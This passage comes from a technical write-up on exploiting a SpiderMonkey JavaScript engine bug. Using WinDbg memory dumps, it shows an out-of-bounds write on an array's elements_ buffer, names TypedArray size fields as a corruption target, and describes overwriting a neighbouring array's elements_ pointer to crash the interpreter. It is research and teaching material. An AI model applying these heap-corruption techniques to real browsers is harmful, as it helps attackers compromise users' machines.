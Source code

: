 ```text
0:000> 
0000035c`97b8b35d 8914c8          mov     dword ptr [rax+rcx*8],edx ds:00002b0a`9d08f290=4f4f4f4f

0:000> r.
rcx=00000000`00000020  rax=00002b0a`9d08f190  edx=00000000`000000bb

0:000> t
0000035c`97b8b360 c744c8040080f8ff mov     dword ptr [rax+rcx*8+4],0FFF88000h ds:00002b0a`9d08f294=4f4f4f4f
```

In the above `@rax` is the `elements_` pointer that has a capacity of only 6 `js::Value` which means the only possible values of the index (`@edx` here) should be in [0 - 5]. In summary, we are able to write an integer `js::Value` which means we can control the lower 4 bytes but cannot control the upper 4 (that will be `FFF88000`). Thus, an ideal corruption target (doesn't mean this is the only thing we could do either) for this primitive is a *size* of an array like structure that is stored as a `js::Value`. Turns out this is exactly how the size of `TypedArrays` are stored - if you don't remember go have a look at my previous article [Introduction to SpiderMonkey exploitation](https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation/) :).

In our case, if we look at the neighboring memory we find another array right behind us:

```text
0:000> dqs 0x0002B0A9D08F160 l100
00002b0a`9d08f160  00002b0a`9d07dcd0
00002b0a`9d08f168  00002b0a`9d0987e8
00002b0a`9d08f170  00000000`00000000
00002b0a`9d08f178  00002b0a`9d08f190
00002b0a`9d08f180  00000000`00000000
00002b0a`9d08f188  00000000`00000006
00002b0a`9d08f190  fffa8000`00000000
00002b0a`9d08f198  fffa8000`00000000
00002b0a`9d08f1a0  fffa8000`00000000
00002b0a`9d08f1a8  fffa8000`00000000
00002b0a`9d08f1b0  fffa8000`00000000
00002b0a`9d08f1b8  fffa8000`00000000

00002b0a`9d08f1c0  00002b0a`9d07dc40 <- another array starting here
00002b0a`9d08f1c8  00002b0a`9d098890
00002b0a`9d08f1d0  00000000`00000000
00002b0a`9d08f1d8  00002b0a`9d08f1f0 <- elements_
00002b0a`9d08f1e0  00000000`00000000
00002b0a`9d08f1e8  00000000`00000006
00002b0a`9d08f1f0  2f2f2f2f`2f2f2f2f
00002b0a`9d08f1f8  2f2f2f2f`2f2f2f2f
00002b0a`9d08f200  2f2f2f2f`2f2f2f2f
00002b0a`9d08f208  2f2f2f2f`2f2f2f2f
00002b0a`9d08f210  2f2f2f2f`2f2f2f2f
00002b0a`9d08f218  2f2f2f2f`2f2f2f2f
```

So one way to get the interpreter to crash reliably is to overwrite its `elements_` with a `js::Value`. It is guaranteed that this should crash the interpreter when it tries to collect the `elements_` buffer as it won't even be a valid pointer. This field is reachable with the index `9` and so we just have to modify this line:
